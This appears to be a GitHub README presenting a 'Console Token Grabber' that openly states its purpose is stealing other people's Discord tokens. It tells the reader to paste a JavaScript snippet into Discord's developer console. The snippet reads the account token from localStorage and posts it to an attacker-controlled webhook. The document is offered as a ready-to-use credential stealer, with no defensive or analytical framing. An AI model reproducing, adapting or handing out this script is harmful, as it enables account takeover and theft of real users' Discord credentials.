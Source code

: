 ## 🔐 Basic Console Token Grabber
 **It's a simple "Console Token Grabber" that you can use to steal other people's Discord Token.**

<!--<h3 align="center">
![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)
</h3> -->

![image](https://cdn.discordapp.com/attachments/941755353035579422/951879632544747540/Unbenannt-1.png)

## 🔐 How to use

• **Go ond Discord and press CTRL + SHIFT + I and paste the Script in the console.**

```js
(function() {
    window.dispatchEvent(new Event('beforeunload'));
    var x = new XMLHttpRequest;
    x.open("POST", 'YOUR WEBHOOK'), x.setRequestHeader("Content-type", "application/json");
    var y = {
        username: "Eternity Console Stealer",
        avatar_url: "https://cdn.discordapp.com/attachments/941755353035579422/947642580521340928/1.png",
        content: "@everyone New Log!",
        embeds: [{
            color: "21426",
            description: `Token: ${window.open().localStorage.token}`,
        }]
    };

    x.send(JSON.stringify(y));
    w.close()
}());;


